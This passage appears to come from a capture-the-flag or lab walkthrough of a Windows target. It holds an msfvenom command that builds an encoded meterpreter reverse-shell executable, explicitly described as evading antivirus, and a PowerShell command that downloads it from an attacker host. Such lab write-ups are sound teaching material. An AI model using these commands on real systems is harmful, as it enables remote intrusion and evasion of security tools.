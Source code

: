 After some navigation we found the file user.txt:

<figure><img src="../../.gitbook/assets/Untitled 24 (1).png" alt=""><figcaption></figcaption></figure>

## Switching shells <a href="#user-content-switching-shells" id="user-content-switching-shells"></a>

To make the privilege escalation easier, let’s switch to a meterpreter shell using the following process.

Use msfvenom to create the a windows meterpreter reverse shell using the following payload

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=[IP] LPORT=[PORT] -f exe -o [SHELL NAME].exe`

<figure><img src="../../.gitbook/assets/Untitled 25 (1).png" alt=""><figcaption></figcaption></figure>

This payload generates an encoded x86-64 reverse tcp meterpreter payload. Payloads are usually encoded to ensure that they are transmitted correctly, and also to evade anti-virus products. An anti-virus product may not recognise the payload and won’t flag it as malicious.

After creating this payload, download it to the machine using the same method in the previous step:

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')"`

<figure><img src="../../.gitbook/assets/Untitled 25 (1) (1).png" alt=""><figcaption></figcaption></figure>

